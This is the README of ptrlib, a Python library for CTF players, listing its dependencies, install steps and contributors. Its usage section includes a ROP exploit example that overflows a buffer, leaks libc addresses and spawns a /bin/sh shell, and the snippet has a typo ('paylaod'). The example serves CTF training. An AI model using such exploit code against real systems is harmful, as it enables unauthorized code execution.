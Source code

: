 ptrlib
====

![Python application](https://github.com/ptr-yudai/ptrlib/workflows/Python%20application/badge.svg)

Python library which bundles security-related utilities.

## Description
Ptrlib is a Python library for CTF players.
It's designed to make it easy to write a complex program of cryptography, networking, exploit and so on.

## Requirements
Supports: Python 3.x

Library Dependency:
- pycryptodome
- pywin32 (If you want to handle Windows process)

External Program:
- If you want to use `SSH` function, the following programs are required:
  - ssh (Default path: `/usr/bin/ssh`)
  - expect (Default path: `/usr/bin/expect`)
- If you want to use `nasm` function, the following program is required:
  - nasm (Install by `apt-get install nasm`)
- If you want to use `assemble` function, the following programs are required:
  - amd: gcc (Install by `apt-get install build-essential`)
  - arm32: arm-linux-gnueabi-gcc (`apt-get install crossbuild-essential-armel`)
  - arm64: arm-linux-gnueabi-gcc (`apt-get install crossbuild-essential-arm64`)

## Usage
Basic examples are available at [/examples](https://bitbucket.org/ptr-yudai/ptrlib/src/master/examples/).

## Quick Document
There are many functions in ptrlib but let's see how to use it for pwn.
You can run executable or create socket like this:
```python
sock = Process("./pwn01")
sock = Process(["./pwn01", "--debug"])
sock = Socket("localhost", 1234)
sock = SSH("example.com", 22, username="ubuntu", password="p4s$w0rd")
sock = SSH("example.com", 22, username="ubuntu", identity="./id_rsa")
```
If you have the target binary or libc, it's recommended to load the binary first.
```python
elf = ELF("./pwn01")
libc = ELF("./libc.so.6")
```
And you can use useful methods such as `got`, `plt`, `symbol`, `section` and so on.
The following is the pwn example of ROP stager.
```python
plt_gets = elf.plt("gets")
stage2 = elf.section(".bss") + 0x400

payload = b'A' * 0x108
payload += flat([
  rop_pop_rdi,
  elf.got("puts"),
  elf.plt("puts"),
  rop_pop_rdi,
  stage2,
  elf.plt("gets"),
  rop_pop_rbp,
  stage2,
  rop_leave_ret
], map=p64)
sock.sendlineafter("Data: ", payload)

libc_base = u64(sock.recvline()) - libc.symbol("puts")
logger.info("libc base = " + hex(libc_base))
libc.set_base(libc_base)
payload = b'A' * 8
paylaod += p64(rop_pop_rdi)
payload += p64(next(libc.find("/bin/sh")))
payload += p64(libc.symbol("system"))
sock.sendline(payload)

sock.interactive()
```

## Install
Run `pip install ptrlib` or `python setup.py install`.

## Licence

[MIT](https://github.com/tcnksm/tool/blob/master/LICENCE)

## Author

[ptr-yudai](https://github.com/ptr-yudai)

## Contributor
Feel free to make a pull request / issue :)

- [theoremoon](https://github.com/theoremoon)
  - Added/fixed several cryptography functions
  - Added buffering of Socket/Process
  - Added status check (CI test)
- [keymoon](https://github.com/key-moon)
  - Added algorithm package
